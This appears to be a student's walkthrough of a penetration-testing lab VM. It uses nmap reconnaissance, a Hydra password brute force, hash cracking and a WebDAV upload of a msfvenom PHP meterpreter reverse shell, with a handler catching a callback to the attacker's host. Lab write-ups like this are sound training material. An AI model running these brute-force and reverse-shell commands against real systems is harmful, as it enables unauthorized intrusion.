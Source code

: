 # **Red Team Pentest Walkthrough**

Our target today is a Virtual Machine through the Trilogy Labs website. The first thing we do after the lab is set up is to pull up a terminal and run the tool **netdiscover:**

![image](https://user-images.githubusercontent.com/28605283/83311706-9baaf600-a1d5-11ea-8225-e123e6c37772.png)

We see some important information right off the bat:

*   IP address: 172.16.84.205
*   MAC address: 00:15:5d:01:80:00

Next, we need to run a portscan to get more information on our target. I used nmap with the following command: **nmap -A 172.16.84.205**.

![image](https://user-images.githubusercontent.com/28605283/83311887-428f9200-a1d6-11ea-9115-f3f336488792.png)

More info revealed:

*   Open ports
    *   22 ssh
    *   80 http
*   OS:
    *   Linux
*   Confirmed host IP

Since we have an open HTTP port, the first thing I like to do is check out the webpage to see if there are any obvious vulnerabilities on the website.

![image](https://user-images.githubusercontent.com/28605283/83311922-59ce7f80-a1d6-11ea-952d-57fb7590123e.png)

Navigating around the sitemap, we come across **172.16.84.205/company_folders/company_culture/file1.txt** with the following message:

![image](https://user-images.githubusercontent.com/28605283/83311985-8b474b00-a1d6-11ea-8bec-60ca2d304a1f.png)

So, I navigated to **172.16.84.205/company_folders/secret_folder/** and was greeted by the following popup:

![image](https://user-images.githubusercontent.com/28605283/83312011-a0bc7500-a1d6-11ea-8f46-cfe4bc47e7c2.png)

Ok, so now we have a name! I wanted to see if I can brute force the login with “ashton” as the username. I used the tool **Hydra** to accomplish this. The command I used was: **hydra -l ashton -P /usr/share/wordlists/rockyou.txt -s 80 -f -vV 172.16.84.205 http-get /company_folders/secret_folder**

![image](https://user-images.githubusercontent.com/28605283/83312027-b16ceb00-a1d6-11ea-8f91-4ce1760453b3.png)

With that, we get our first password! **ashton:leopoldo**

![image](https://user-images.githubusercontent.com/28605283/83312051-bfbb0700-a1d6-11ea-8a5f-054047554002.png)

With this information in hand, I went back to the website and entered the credentials to gain access to the secret_folder. I was then shown this: 

![image](https://user-images.githubusercontent.com/28605283/83312079-d3666d80-a1d6-11ea-849b-b8a222c26592.png)

I clicked through to connecting_to_webdav and found a note that looked to be very useful.

![image](https://user-images.githubusercontent.com/28605283/83312095-df522f80-a1d6-11ea-8adf-07c384c6adab.png)

So I followed the directions in the above note, and cracked the hash for ryan’s account password. I ended up with the password “linux4u”, and added the webdav to my files!

![image](https://user-images.githubusercontent.com/28605283/83312112-eda04b80-a1d6-11ea-8528-ebaa516e4ac0.png)

The instructions state that I can now share and upload files, so I want to upload a reverse shell to the server. For this, I used the tool **msfvenom** with the following command: **msfvenom -p php/meterpreter/reverse_tcp lhost=172.16.84.55 lport=4444 >> shell.php**

This command creates a PHP reverse shell with our IP as the host using port 4444.

![image](https://user-images.githubusercontent.com/28605283/83312140-01e44880-a1d7-11ea-8a90-f4cdc6ce1025.png)

With the payload created, I then opened up Metasploit and navigated to the /exploit/multil/handler option. I then set my options, with my payload being set as the meterpreter reverse tcp, and the LHOST as my IP.

![image](https://user-images.githubusercontent.com/28605283/83312168-10326480-a1d7-11ea-9e04-6da97cd33d30.png)

Now that the listener is up and running, I put the shell.php file into the webdav directory in my files. Then I navigated back to the webdav webpage at 172.16.84.205 and logged in using Ryan’s credentials, and we see the shell.php file successfully uploaded.

![image](https://user-images.githubusercontent.com/28605283/83312185-1aecf980-a1d7-11ea-8c92-b972925cf655.png)

Clicking on the shell.php, our meterpreter session activates and we have a reverse shell. From here, I navigated around the server and found the flag.txt in the root directory.

![image](https://user-images.githubusercontent.com/28605283/83312201-2809e880-a1d7-11ea-9fc7-8d2647e01f06.png)

I used the command **cat flag.txt** and we are all set!

![image](https://user-images.githubusercontent.com/28605283/83312233-36f09b00-a1d7-11ea-9868-dcfb490b3e8c.png)

This was a great, challenging exercise using new techniques and tools! 

